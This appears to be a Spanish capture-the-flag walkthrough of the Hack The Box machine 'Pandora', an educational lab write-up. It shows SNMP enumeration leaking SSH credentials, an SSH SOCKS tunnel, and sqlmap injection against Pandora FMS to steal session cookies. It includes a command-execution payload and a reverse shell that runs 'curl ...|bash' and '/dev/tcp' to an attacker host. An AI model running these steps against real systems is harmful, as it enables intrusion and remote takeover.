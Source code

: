 # INICIO BY d4l1

Muy buenas, hoy estaremos tratando la máquina Pandora de HTB.

Como siempre haremos un poco de resumen a lo que nos enfrentaremos, conocimientos y demás.

Empezaremos haciendo un escaner de sistema operativo, (tengo un repositorio con dicho escaneo).

Gracias a ello entendemos que nos estamos enfrentando a una máquina Linux, posteriormente toca un escaner de puertos, para ver si llegaramos a poder sacar alguna información.

```
sudo nmap -sCV -T4 --min-rate 5000 IP
```
Si queremos podemos poner un "-p-" o "-Pn" pero en este caso no se si hara falta.

Nos encontramos con los puertos "22" (SSH) y "80" (HTTP) abiertos.

Lo que haremos primero sera inspeccionar la página a ver que encontramos.

## PROCESO

Lo primero que encontramos nada más entrar es un dominio "panda.htb" lo añadimos
```
echo "ip panda.htb" | sudo tee -a /etc/hosts
```
En este momento, podemos hacer un escaner de directorios o dominios, pero no vamos a encontrar nada importante.

Probaremos a hacer un nuevo escaner de nmap pero en este caso enfocandonos en udp
```
sudo nmap -sU ip
```
Aquí viene lo importante, nos encontramos con tres puertos UDP abiertos y nos centraremos en el 161

### SNMP
Simple Network Management Protocol, protocolo para la gestión de la transferencia de información en redes, especialmente para uso en LAN.

Gracias a esto aprenderemos a usar los comandos para escanear dicho puerto. 

```
snmpwalk  -v 1 -c public IP
```
Posteriormente a esto encontramos algo importante que es un usuario llamado "Daniel" con su respectiva contraseña "HotelBabylon23" para conectarnos por ssh
```
ssh daniel@ip
```
Dentro vemos del directorio /home/matt el "user.txt" pero aún no tenemos los permisos para leerlo.

## MOVIMIENTO LATERAL

El siguiente paso que haremos será ver la página web que en el puerto 80 vimos, como sabemos normalmente las páginas estan guardadas en /var/www con lo cual haremos un ls -a
```
ls -al /var/www
```
Dentro encontramos el directorio "html" y así sabemos y comprobamos que lo tenemos.

El siguiente paso sera ir donde apache guarda los sitios 
```
/etc/apache2/sites-enabled/pandora.conf
```
El cual nos encontramos con este código 
```
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```
Gracias a eso odemos reenviar nuestra conexión al puerto interno del host remoto y luego podremos acceder a su
contenido web. Hay varias formas de realizar el reenvío de puertos, aunque lo haremos utilizando el
Conexión SSH en sí. Usando este túnel, podemos configurar un proxy para ver la página web.
```
ssh -D 9090 daniel@ip
```
También necesitaremos configurar un proxy SOCKS en la extensión del navegador foxy-proxy para poder realizar el
El navegador enruta el tráfico a través del puerto que se reenvía.

Cuando este todo creado, en el navegador ponemos "localhost"

y aquí conseguimos la información de versión de pandora "v7.0NG.742_FIX_PERL2020"

Con esto hemos encontrado [esta](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/) vulnerabilidad

## SQL INJECTION

Con la anterior referencia, entendemos que pandora sufre una Injección SQL, pudiendo hacer un bypass en el proceso "/include/functions_io.php" y debemos pasar la "session_id" en este caso utilizaremos "sql_map" (debo aprender sql injection lose)

Deberemos aprender a utilizar los "proxychains" 

Proxychains es una herramienta que obliga a cualquier conexión TCP realizada por cualquier aplicación a pasar por servidores proxy.
como TOR o cualquier otro proxy SOCKS4, SOCKS5 o HTTP.

Necesitaremos agregar una entrada para nuestro proxy en la sección ProxyList en /etc/proxychains4.conf

```
nano /etc/proxychains4.con
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
Ahora utilizaremos el sqlmap para hacer el escaner.
```
proxychains sqlmap --url="http://localhost/pandora_console/include/chart_generator.php?session_id=''" --current-db
```
Obtenemos la lista "tables"
```
proxychains sqlmap --url="http://localhost/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
```
Ahora con la tabla "sessions_php" sacamos los "session_id"
```
proxychains sqlmap --url="http://localhost/pandora_console/include/chart_generator.php?session_id=''" -T tsessions_php --dump
```

(todo esto también podemos utilizar una url si la hemos añadido al dns)

```
echo "ip pandora.panda.htb" | sudo tee -a /etc/hosts
```
Gracias a esto conseguimos las cookies de sesion en mi caso "g4e01qdgk36mfdh90hvcc54umq" y las añadimos al navegador.

Nos conseguimos meter dentro de la cuenta de Matt y vamos a explorar dentro.

Nos damos cuenta que no tenemos privilegios ni podemos hacer gran cosa, e intentaremos hacer una ejecución de código para conectarnos por una shell.

Para coger las Request dentro de BurpSuite deberemos configurar el Sock Proxy dentro de "User options"

Cuando consigamos el request de "events" lo pasaremos a post y le meteremos este payload .
```
page=include%2fajax%2fevents&perform_event_response=10000000&target=whoami&response_id=1
```
y como veremos nos respondera el "whoami" como "matt"

Ahora crearemos una shell en nuestro equipo y agregaremos a la request para que lo descarge 
```
bash -i >& /dev/tcp/ip/1337 0>&1

python3 -m http.server 80

```
y desde el burp suite haremos el curl para descargar
```
curl+ip:80/shell.sh|bash
```
```
sudo nc -lvnp 1337
```
Gracias a esto conseguimos la primera flag de usuario

## PRIVILEGE ESCALATION

Buscaremos para empezar los archivos que tenemos permisos para modificar

```
 find / -perm -4000 2>/dev/null
```
Nos encontramos con un pandora backup vemos que es 
```
 ls -al /usr/bin/pandora_backup
```
Si probamos a iniciar el back_up nos da un error
 ```
 /usr/bin/pandora_backup
```
Podemos probar rompiendo las restriciones de la shel
```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```
```
python -c "import pty;pty.spawn('/bin/bash')"
```






